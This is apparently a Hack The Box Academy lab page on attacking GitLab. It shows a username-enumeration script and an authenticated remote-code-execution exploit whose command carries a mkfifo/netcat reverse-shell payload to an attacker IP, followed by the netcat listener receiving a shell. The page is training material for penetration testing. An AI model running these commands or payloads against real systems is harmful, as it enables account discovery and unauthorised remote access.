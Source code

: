<!--
 // Platform: Academy
// URL: https://academy.hackthebox.com/module/113/section/1217
// Platform Version: V1
// Module ID: 113
// Module Name: Attacking Common Applications
// Module Difficulty: Medium
// Section ID: 1217
// Section Title: Attacking GitLab
// Page Title: Attacking Common Applications
// Page Number: 18
-->

# Attacking GitLab

**Module Name:** Attacking Common Applications **Page Number:** 18

#### ATTACKING COMMON APPLICATIONS

# Attacking GitLab

## Username Enumeration

``` shell-session
# Number of authentication tries before locking an account if lock_strategy
# is failed attempts.
config.maximum_attempts = 10

# Time interval to unlock the account if :time is enabled as unlock_strategy.
config.unlock_in = 10.minutes
```

``` shell-session
[!bash!]$ ./gitlab_userenum.sh --url http://gitlab.inlanefreight.local:8081/ --userlist users.txt

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
  			             GitLab User Enumeration Script
   	    			             Version 1.0

Description: It prints out the usernames that exist in your victim's GitLab CE instance

Disclaimer: Do not run this script against GitLab.com! Also keep in mind that this PoC is meant only
for educational purpose and ethical use. Running it against systems that you do not own or have the
right permission is totally on your own risk.

Author: @4DoniiS [https://github.com/4D0niiS]
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


LOOP
200
[+] The username root exists!
LOOP
302
LOOP
302
LOOP
200
[+] The username bob exists!
LOOP
302
```

## Authenticated Remote Code Execution

``` shell-session
[!bash!]$ python3 gitlab_13_10_2_rce.py -t http://gitlab.inlanefreight.local:8081 -u mrb3n -p password1 -c 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc 10.10.14.15 8443 >/tmp/f '

[1] Authenticating
Successfully Authenticated
[2] Creating Payload 
[3] Creating Snippet and Uploading
[+] RCE Triggered !!
```

``` shell-session
[!bash!]$ nc -lnvp 8443

listening on [any] 8443 ...
connect to [10.10.14.15] from (UNKNOWN) [10.129.201.88] 60054

git@app04:~/gitlab-workhorse$ id

id
uid=996(git) gid=997(git) groups=997(git)

git@app04:~/gitlab-workhorse$ ls

ls
VERSION
config.toml
flag_gitlab.txt
sockets
```

# 

# 

#### Questions

####